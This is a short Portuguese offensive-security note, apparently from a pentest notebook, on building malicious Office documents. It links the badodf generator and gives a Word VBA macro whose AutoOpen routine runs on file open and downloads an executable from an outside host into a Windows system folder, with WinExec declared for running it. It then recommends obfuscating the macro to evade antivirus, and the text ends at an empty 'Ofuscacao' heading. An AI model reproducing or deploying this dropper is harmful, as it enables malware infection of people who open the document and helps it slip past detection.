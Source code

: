 OfficeDocs
========================
Podemos gerar alguns documentos maliciosos com ferramentas tambem, por exemplo:


## Badodt

Nesse link podemos encontrar uma das ferramentas. Devemos nos atentar ao detalhe da extensao do documento (.odt)

<https://github.com/rmdavy/badodf.git>

Necessaria a instalacao da dependencia:

    pip install ezodf

    python badodt.py

![qownnotes-media-qkAioG](../../../media/qownnotes-media-qkAioG.png)

## Manual

Para criar manualmente esses arquivos, podemos fazer da seguinte maneira. Abra o Word. 

Exibir->Macros -> Criar

**Certifique-se de que o nome da funcao seja AutoOpen, dado que ela executara automaticamente quando o arquivo for aberto pelo usuario.**

    Sub AutoOpen()
    End Sub

Alguns exemplos de codigos:

```
Private Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As Long, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function WinExec Lib "kernel32" ( _
    ByVal lpCmdLine As String, _
    ByVal uCmdShow As Long) As Long

Sub AutoOpen()
    URLDownloadToFileA 0, "http://10.8.1.121/backup.exe", "C:\Windows\system32\spool\drivers\color\backup.exe", 0, 0
End Sub
```

Nenhuma dessas opcoes acima sao ofuscadas e provavel que sejam pegas por AVs.

Para isso, devemos utilizar tecnicas de ofuscacao pra evitar a deteccao e delecao dos antivirus do nosso artefato.

## Ofuscacao